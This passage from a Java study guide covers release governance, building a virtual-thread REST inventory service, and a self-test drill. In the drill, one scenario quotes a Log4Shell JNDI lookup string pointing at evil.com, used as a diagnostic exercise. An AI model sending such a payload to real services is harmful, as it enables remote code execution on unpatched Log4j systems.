| Release cadence | 6 months            | annual             | ~6 months          |
| Preview phase   | yes (1-2 releases)  | no                 | experimental flag  |
| Backward compat | extremely strict    | strict             | flexible           |
| Evolution speed | slow and deliberate | moderate           | fast               |

---

### ⚡ Decision Snap

**USE LTS releases (17, 21, 25) WHEN:**

- Running production workloads.
- The organization needs long-term security patches.

**USE non-LTS releases WHEN:**

- Testing compatibility with upcoming features.
- Providing feedback on preview features.

**PARTICIPATE in the JEP process WHEN:**

- A preview feature affects your codebase - file feedback
  via JBS.
- You want to influence Java's direction - join mailing
  lists.

---

### ⚠️ Top Traps

| #   | Misconception                               | Reality                                                                                              |
| --- | ------------------------------------------- | ---------------------------------------------------------------------------------------------------- |
| 1   | Java is dead / not evolving                 | Java ships new features every 6 months; records, sealed types, virtual threads all shipped 2020-2023 |
| 2   | Preview features are stable enough for prod | Preview explicitly means "may change or be removed"                                                  |
| 3   | Non-LTS releases are unsafe                 | They receive patches for 6 months; use LTS for longer support                                        |
| 4   | Oracle controls Java                        | JCP has multiple vendors; OpenJDK is open-source with broad contribution                             |
| 5   | JEP numbers indicate priority               | JEP numbers are sequential identifiers, not priority rankings                                        |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JLG-001 What Is Java - Orientation - Java ecosystem
  overview
- JLG-044 Module System (JPMS) - a JEP-driven feature
  example

**THIS:** JLG-052 JEP Process and JCP Governance

**Next steps:**

- JLG-057 Java 8 to 21 Migration Strategy - practical
  implications of release cadence
- JLG-060 Designing a Type System - the specification-level
  decisions that JEPs implement

**The Surprising Truth:**
The 6-month release cadence was not Oracle's idea. It was
proposed by Mark Reinhold after Java 9's painful 3.5-year
development cycle. The module system (Jigsaw) was delayed
twice and nearly split the community. The lesson was that
large, infrequent releases are riskier than small, frequent
ones. Java adopted the same insight that DevOps applies to
deployments: smaller batches reduce risk.

**Further Reading:**

- JEP index (openjdk.org/jeps/0)
- JCP website (jcp.org) - JSR listing and process docs
- "The State of Java" keynotes from annual JavaOne/Devoxx
  conferences

**Revision Card:**

1. JEP = OpenJDK proposal. JCP/JSR = specification. Both
   are required for a Java SE feature.
2. LTS every 2 years (17, 21, 25). Use LTS for production.
3. Preview features are experimental. Never depend on them
   in production code.

---

---

# JLG-053 Inventory REST - Phase 4 (Modern Java + Loom)

**TL;DR** - Evolve the Inventory CLI into a REST service using virtual threads, structured concurrency, and modern Java features from Phases 1-3.

---

### 🔥 Problem Statement

Phases 1-3 built a CLI application with classes, collections,
streams, and records. Real applications serve multiple users
concurrently over HTTP. Phase 4 wraps the inventory logic in
a REST API, handles concurrent requests with virtual threads
(JLG-045), and adds structured logging (JLG-048) and testing
(JLG-047). This phase teaches the transition from single-user
CLI to multi-user service.

---

### 📜 Historical Context

Java web development traditionally required heavy frameworks
(Spring Boot, Jakarta EE). Java 21 virtual threads simplify
concurrency to the point where a lightweight HTTP server
(`com.sun.net.httpserver.HttpServer` or Javalin) can handle
thousands of concurrent requests without thread-pool tuning.
This phase uses minimal dependencies to focus on Java language
features, not framework magic.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. Separation of concerns. The inventory domain logic
   (records, streams, collections) must not know about HTTP.
   The REST layer translates HTTP requests to domain calls
   and domain results to HTTP responses.
2. Virtual threads for request handling. Each HTTP request
   runs on a virtual thread. No thread-pool sizing, no
   reactive callbacks. Synchronous code that scales.
3. Observability from day one. Every request gets a traceId
   (MDC), structured log entries, and a response time
   measurement. Without observability, debugging a concurrent
   service is guesswork.

**DERIVED DESIGN:**
Separation (invariant 1) means the domain layer from Phases
1-3 works unchanged. Virtual threads (invariant 2) eliminate
concurrency boilerplate. Observability (invariant 3) makes
the service debuggable from the start.

**THE TRADE-OFF:**
**Gain:** clean architecture, minimal framework dependency,
scalable concurrency.
**Cost:** no built-in routing, validation, or error handling
that frameworks provide.

---

### 🧠 Mental Model

> Phase 1-3 was a single cashier serving one customer at a
> time. Phase 4 opens the store: multiple cashiers (virtual
> threads) serve multiple customers (HTTP requests)
> simultaneously. The inventory (domain logic) is the same
> stockroom both models share.

- "Single cashier" -> CLI single-threaded execution
- "Multiple cashiers" -> virtual threads
- "Customer" -> HTTP request
- "Stockroom" -> inventory domain logic

**Where this analogy breaks down:** real cashiers need
training; virtual threads are created by the JVM on demand
with zero configuration.

---

### 🧩 Components

```text
Architecture:

HTTP Client
  |
  v
REST Layer (HttpServer + virtual threads)
  +-- GET /products
  +-- GET /products/{id}
  +-- POST /products
  +-- GET /reports/summary
  |
  v
Domain Layer (from Phases 1-3)
  +-- record Product(...)
  +-- InventoryService (streams, collectors)
  |
  v
In-memory store (ConcurrentHashMap)
```



---

### 📶 Gradual Depth

**Layer 1 - Surface:** Create an `HttpServer` on port 8080.
Register handlers for `/products` (GET, POST). Each handler
parses the request, calls the domain service, and writes JSON.

**Layer 2 - Virtual threads:** Configure the server's executor
as `Executors.newVirtualThreadPerTaskExecutor()`. Every
incoming request now runs on a virtual thread automatically.

**Layer 3 - Structured logging:** Add SLF4J + Logback. Assign
a traceId via MDC at the start of each request. Log request
method, path, status, and duration as structured fields.

**Layer 4 - Testing:** Write JUnit 5 tests that start the
server, send HTTP requests, and verify responses. Add a
property-based test for the search endpoint: any generated
product name that was added must be findable.

---

### ⚙️ How It Works

```text
Request flow:

Client: GET /products?category=tools
  |
  v
HttpServer dispatches to virtual thread
  |
  v
Handler: parse query params
  |
  v
InventoryService.findByCategory("tools")
  -> products.stream()
       .filter(p -> p.category().equals(c))
       .toList()
  |
  v
Serialize List<Product> to JSON
  |
  v
Response: 200 OK, Content-Type: application/json
```



**BAD:**

```java
// Thread-pool-based server (pre-Java 21)
var executor = Executors.newFixedThreadPool(200);
server.setExecutor(executor);
// 201st concurrent request blocks until a
// thread is available. Tuning pool size is
// guesswork. Too small = latency. Too large =
// memory waste.
```

**GOOD:**

```java
// Virtual thread executor (Java 21+)
server.setExecutor(
    Executors
        .newVirtualThreadPerTaskExecutor());
// Each request gets its own virtual thread.
// No pool sizing. Scales to thousands.
```

---

### 🚨 Failure Modes

**Failure 1 - Shared mutable state without synchronization.**

Two virtual threads add a product simultaneously. Both read
the current list, append, and write back. One product is lost
(lost update).

**Diagnostic:** product count is less than expected after
concurrent inserts.

**Fix:** use `ConcurrentHashMap` for the store. Use
`computeIfAbsent()` or `merge()` for atomic read-modify-write.

**Failure 2 - Blocking call pinning a carrier thread.**

A virtual thread calls `synchronized` on a shared monitor that
blocks for a long time. This pins the underlying carrier
thread, reducing concurrency.

**Diagnostic:** `jcmd <pid> Thread.dump_to_file -format=json`
shows pinned virtual threads.

**Fix:** replace `synchronized` with `ReentrantLock` for
long-held locks. Virtual threads unmount cleanly from
`ReentrantLock.lock()` but not from `synchronized` blocks.

---

### 🔬 Production Reality

This exercise mirrors a real production pattern: a lightweight
Java HTTP service with:

- Virtual threads for concurrency (no thread-pool tuning).
- Records for immutable DTOs.
- Streams for query and aggregation.
- Structured logging for observability.
- Property-based tests for correctness.

In production, you would add:

1. A persistent store (database) instead of in-memory map.
2. Input validation and error responses (400, 404, 500).
3. Metrics (request count, latency histogram).
4. Health check endpoint (`/health`).
5. Graceful shutdown (drain in-flight requests).

The exercise intentionally omits these to focus on Java
language features. Phase 5 (if extended) would add a database
and a framework.

---

### ⚖️ Trade-offs & Alternatives

| Aspect       | Bare HttpServer   | Javalin            | Spring Boot        |
| ------------ | ----------------- | ------------------ | ------------------ |
| Dependencies | JDK only          | 1 JAR              | many JARs          |
| Learning     | Java fundamentals | lightweight API    | framework concepts |
| Production   | missing features  | suitable for small | full-featured      |
| Virtual thr. | manual config     | built-in support   | Spring 6+ support  |
| Startup time | instant           | ~1 second          | 2-10 seconds       |

---

### ⚡ Decision Snap

**USE this exercise WHEN:**

- You have completed Phases 1-3 and want to learn
  concurrency and REST.
- You want hands-on experience with virtual threads.
- You prefer learning Java features before learning
  frameworks.

**AVOID WHEN:**

- You are already building REST services with Spring Boot.
- You want to learn a framework, not raw Java HTTP.

**EXTEND to Phase 5 WHEN:**

- You want to add a database, validation, and error handling.

---

### ⚠️ Top Traps

| #   | Misconception                          | Reality                                                                          |
| --- | -------------------------------------- | -------------------------------------------------------------------------------- |
| 1   | `HttpServer` is production-grade       | It is fine for learning and internal tools, not for public-facing services       |
| 2   | Virtual threads replace all sync needs | Shared mutable state still requires synchronization (ConcurrentHashMap, locks)   |
| 3   | JSON serialization is trivial          | Use a library (Jackson, Gson); manual string building breaks on special chars    |
| 4   | In-memory store scales                 | It works for exercise scope; production needs a database with persistence        |
| 5   | Virtual threads are always faster      | For CPU-bound work, platform threads are equivalent; virtual threads shine on IO |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JLG-042 Inventory CLI - Phase 3 (Streams + Records) - the
  CLI to evolve
- JLG-045 Virtual Threads - Language Surface - concurrency
  model
- JLG-048 SLF4J Structured Logging - observability

**THIS:** JLG-053 Inventory REST - Phase 4 (Modern Java + Loom)

**Next steps:**

- JLG-054 Java Expert Mastery Verification - test your
  knowledge across all L4 topics
- JLG-055 Library API Design - design APIs for the
  inventory service

**The Surprising Truth:**
The entire REST service - routes, handlers, domain logic,
structured logging, virtual thread concurrency - fits in under
200 lines of Java with zero external dependencies (beyond
SLF4J). This is modern Java's real power: the language and
standard library are expressive enough that a lightweight
service does not need a framework. Frameworks add value for
large applications, but learning without them first builds
deeper understanding.

**Further Reading:**

- JDK HttpServer javadoc
  (docs.oracle.com/en/java/javase/21/docs/api)
- JEP 444: Virtual Threads (openjdk.org/jeps/444)
- "Simple, Scalable, Java" (Inside.java blog on virtual
  threads for HTTP servers)

**Revision Card:**

1. REST layer translates HTTP to domain calls. Domain logic
   stays framework-free.
2. `newVirtualThreadPerTaskExecutor()` - one virtual thread
   per request, no pool sizing.
3. ConcurrentHashMap for shared state. ReentrantLock over
   `synchronized` for virtual threads.

---

---

# JLG-054 Java Expert Mastery Verification + Teaching Drill

**TL;DR** - Test your L4 Java knowledge with questions that expose gaps, then solidify understanding by teaching each concept from memory.

---

### 🔥 Problem Statement

Completing L4 keywords does not guarantee mastery. Knowledge
that cannot be retrieved under pressure (interviews, incident
response, design reviews) is not usable knowledge. This drill
tests recall, application, and explanation ability across all
L4 topics: modules, virtual threads, structured concurrency,
testing, logging, boxing traps, security incidents, and
governance.

---

### 📜 Historical Context

The "teaching drill" format comes from the Feynman technique:
if you cannot explain a concept simply, you do not understand
it. Combined with retrieval practice (testing yourself without
notes), this is the most effective known method for moving
knowledge from short-term to long-term memory. Research in
cognitive science consistently shows that testing is more
effective for retention than re-reading.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. Retrieval beats review. Testing yourself is 2-3x more
   effective for retention than re-reading the same material
   (implementation-dependent, varies by study).
2. Explanation exposes gaps. If you stumble while explaining
   a concept, you have found a gap. Go back to the keyword
   and re-read the specific section.
3. Spaced repetition consolidates. Do this drill once now,
   again in 3 days, again in 7 days, then monthly. Each
   repetition strengthens the neural pathways.

**DERIVED DESIGN:**
The three-part structure (recall, scenario, teaching) targets
progressively deeper understanding. Recall tests recognition,
scenarios test application, teaching tests true comprehension.

**THE TRADE-OFF:**
**Gain:** durable knowledge, interview readiness, gap
identification.
**Cost:** 30 minutes of focused effort per session.

---

### 🧠 Mental Model

> This drill is a flight simulator for Java expertise. A
> pilot does not learn to fly by re-reading the manual.
> They practice procedures under simulated pressure. Each
> question is a simulated scenario that tests whether you
> can apply knowledge, not just recognize it.

- "Flight simulator" -> this drill
- "Procedures" -> Java concepts (JPMS, virtual threads, etc.)
- "Simulated pressure" -> timed, no-notes answers
- "Crash in simulator" -> gap found, re-study

**Where this analogy breaks down:** flight simulators test
motor skills; this drill tests conceptual understanding.

---

### 🧩 Components

```text
Drill structure:

Part 1: Rapid recall (30 sec per question)
  10 questions across L4 topics

Part 2: Scenario diagnosis (2 min each)
  5 production scenarios

Part 3: Teaching drill (3 min each)
  3 concepts to explain from scratch

Self-scoring: track gaps per topic
```



---

### 📶 Gradual Depth

**Layer 1 - Rapid recall.** Answer in one sentence, no notes.

1. What does `exports` do in `module-info.java`?
2. How do virtual threads differ from platform threads?
3. What is the JNDI lookup that made Log4Shell possible?
4. Why does `Map<Long, Long>` box every put?
5. What is a gadget chain in deserialization attacks?
6. What is the difference between JEP and JSR?
7. What does jqwik add to JUnit 5?
8. What is MDC in SLF4J?
9. What Java version introduced `StructuredTaskScope`?
10. Why is `--add-opens` considered technical debt?

**Layer 2 - Scenario diagnosis.** Given a problem description,
identify root cause and fix.

**Scenario A:** A service logs user input. An attacker sends
a header containing `${jndi:ldap://evil.com/x}`. The service
runs Log4j 2.14.1. What happens? What is the immediate fix?

**Scenario B:** A Java 21 service handling 50k req/s shows
frequent GC pauses. `jmap -histo` shows 40 million
`java.lang.Long` instances. Where do you look?

**Scenario C:** A JUnit 5 property test passes locally but
fails in CI with a different counterexample each run. How do
you make it reproducible?

**Scenario D:** A Spring Boot app migrated from classpath to
module path. Internal reflection fails with
`IllegalAccessError`. What is the cause?

**Scenario E:** `Integer a = 300; Integer b = 300;`
`System.out.println(a == b);` prints `false`. A junior
engineer says Java is broken. Explain.

**Layer 3 - Teaching drill.** Explain each topic in 2-3
minutes to an imaginary junior engineer, using no notes.

**Topic 1:** Explain virtual threads - what problem they
solve, how they work, and when to avoid them.

**Topic 2:** Explain Log4Shell - the vulnerability, the fix,
and the systemic lesson.

**Topic 3:** Explain property-based testing - how it differs
from example-based testing and when to use it.

**Layer 4 - Gap analysis.** Score yourself:

| Topic           | Recall | Scenario | Teaching | Action   |
| --------------- | ------ | -------- | -------- | -------- |
| JPMS            |        |          |          | re-study |
| Virtual threads |        |          |          |          |
| Log4Shell       |        |          |          |          |
| Boxing trap     |        |          |          |          |
| Deserialization |        |          |          |          |
| JEP/JCP         |        |          |          |          |
| JUnit 5 + jqwik |        |          |          |          |
| SLF4J + MDC     |        |          |          |          |

Fill each cell with "solid", "shaky", or "gap". Re-study
any row with a "gap" before proceeding to L5.

---

### ⚙️ How It Works

```text
Drill execution:

1. Set timer: 30s / 2min / 3min per section
2. Answer without notes or references
3. After each answer, check against the
   corresponding keyword for accuracy
4. Mark correct/partial/wrong
5. Repeat wrong items after 3 days

Scoring:
  Correct: move on
  Partial: flag for review in 3 days
  Wrong:   re-read keyword now, retry in 1 day
```



**BAD:**

```java
// Passive review: re-reading notes
// "I remember seeing this in JLG-050..."
// Result: recognition without retrieval.
// Feels like learning, but you cannot
// reproduce the answer under pressure.
String answer = notes.get("Log4Shell");
System.out.println(answer); // passive
```

**GOOD:**

```java
// Active retrieval: write answer first,
// then check
String myAnswer = recallFromMemory(
    "What made Log4Shell possible?");
assertEquals(
    "JNDI lookup in log messages",
    myAnswer); // active retrieval
// Compare against keyword only AFTER
```

---

### 🚨 Failure Modes

**Failure 1 - Recognizing without retrieving.**

You read the answer and think "I knew that" - but you could
not produce it without the prompt. This is the illusion of
competence.

**Diagnostic:** if you cannot answer in 30 seconds without
notes, you do not have retrieval-level mastery.

**Fix:** close all references. Write the answer on paper or
speak it aloud. Compare against the keyword only after.

**Failure 2 - Skipping the teaching drill.**

Recall questions test recognition. Teaching tests
understanding. If you can recall "JNDI lookup" but cannot
explain why Log4Shell affected logging specifically, you have
a gap.

**Diagnostic:** your teaching explanation lacks the "why" -
only surface facts, no mechanism.

**Fix:** re-read the Mental Model and How It Works sections
of the keyword. Try teaching again.

---

### 🔬 Production Reality

Expert-level Java engineers are expected to:

1. Debug a deserialization or logging vulnerability in a
   production service under time pressure.
2. Explain why a GC-heavy service is allocating millions of
   wrapper objects.
3. Evaluate whether to adopt a preview feature or wait for
   finalization.
4. Design a testing strategy that includes property-based
   tests for critical invariants.
5. Configure structured logging with MDC tracing for
   microservice observability.

This drill covers all five scenarios. Engineers who can pass
all three parts without notes are ready for L5 (Architecture)
topics.

---

### ⚖️ Trade-offs & Alternatives

| Aspect      | This drill        | Re-reading notes | Mock interview       |
| ----------- | ----------------- | ---------------- | -------------------- |
| Effort      | moderate (30 min) | low (passive)    | high (needs partner) |
| Retention   | high (retrieval)  | low (illusion)   | high (pressure)      |
| Feedback    | self-scored       | none             | external             |
| Frequency   | solo, any time    | any time         | scheduled            |
| Gap finding | strong            | weak             | strong               |

---

### ⚡ Decision Snap

**USE this drill WHEN:**

- You have completed all L4 keywords (JLG-044..054).
- You are preparing for a senior/staff Java interview.
- You want to identify and fix knowledge gaps before
  moving to L5.

**AVOID WHEN:**

- You have not yet studied the L4 keywords.
- You prefer guided instruction over self-assessment.

**REPEAT this drill WHEN:**

- Spaced repetition schedule: now, day 3, day 7, monthly.

---

### ⚠️ Top Traps

| #   | Misconception                          | Reality                                                                   |
| --- | -------------------------------------- | ------------------------------------------------------------------------- |
| 1   | Reading the answers counts as studying | Passive review gives an illusion of competence; retrieval is key          |
| 2   | Getting the right keyword is enough    | You need the mechanism, trade-off, and when-to-use, not just the name     |
| 3   | One drill session is enough            | Spaced repetition (3 days, 7 days, monthly) is required for retention     |
| 4   | Teaching drill is optional             | Explaining exposes deeper gaps than recall questions                      |
| 5   | Perfect score means mastery            | Mastery means applying knowledge under novel conditions, not drill recall |

---

### 🪜 Learning Ladder

**Prerequisites:**

- All L4 keywords: JLG-044 through JLG-053

**THIS:** JLG-054 Java Expert Mastery Verification + Teaching
Drill

**Next steps:**

- JLG-055 Library API Design - Lessons from java.util
  (L5 Architect level)
- JLG-056 Java vs Kotlin - When Each Fits (L5 decision
  framework)

**The Surprising Truth:**
The gap between "I have studied this" and "I can use this
under pressure" is larger than most engineers realize. Studies
in cognitive science show that students who test themselves
score 50-70% better on delayed assessments than students who
study the same material by re-reading. The teaching drill
adds another layer: explaining forces you to organize
knowledge into a coherent narrative, which is exactly what
interviews and design reviews require.

**Further Reading:**

- "Make It Stick: The Science of Successful Learning"
  (Brown, Roediger, McDaniel) - the research behind
  retrieval practice
- The Feynman Technique (described in "Surely You're Joking,
  Mr. Feynman")
- Spaced repetition research (Ebbinghaus forgetting curve)

**Revision Card:**

1. Retrieval practice > re-reading. Test yourself without
   notes.
2. Teaching exposes gaps that recall misses. Explain the
   "why," not just the "what."
3. Spaced repetition: now, 3 days, 7 days, monthly.
